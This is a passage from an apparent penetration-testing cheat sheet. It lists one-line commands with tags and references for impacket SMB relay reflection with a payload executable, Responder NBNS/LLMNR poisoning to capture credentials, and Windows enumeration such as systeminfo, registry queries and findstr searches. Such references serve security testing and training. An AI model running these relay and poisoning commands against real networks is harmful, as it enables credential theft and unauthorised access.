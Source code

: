 https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 12. smbrelay reflection : note read into http -> smb refelction
```
smbrelayx.py -e [PAYLOAD exe]
```
**- linux,smb,MitM,Windows,impacket,privilege escalation**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 13. responder NBNS LLMNR
```
/data/hacking/Responder/Responder.py -I eth0 -wrfFd --lm -i [YOUR IP]
```
**- linux,passwords,smb,MitM,privilege escalation**
#### References:

https://github.com/SpiderLabs/Responder
https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
__________
### 14. system information
```
ver
```
**- enumeration,Windows,privilege escalation**
#### References:

https://technet.microsoft.com/en-us/library/bb491028.aspx
__________
### 15. remote system info
```
systeminfo /S [victim] /U [domain]/[user] /P [pass]
```
**- enumeration,Windows,privilege escalation**
#### References:

https://technet.microsoft.com/en-gb/library/bb491007.aspx
__________
### 16. search for text in the reg
```
reg query HKLM /f [text]  /t REG SZ /s
```
**- enumeration,Windows,privilege escalation,forensics**
#### References:

http://www.fuzzysecurity.com/tutorials/16.html
https://technet.microsoft.com/en-us/library/cc742028(v=ws.11).aspx
__________
### 17. grep for text in files
```
findstr /si [text] '.txt|xml|xls'
```
**- enumeration,Windows,privilege escalation**
#### References:
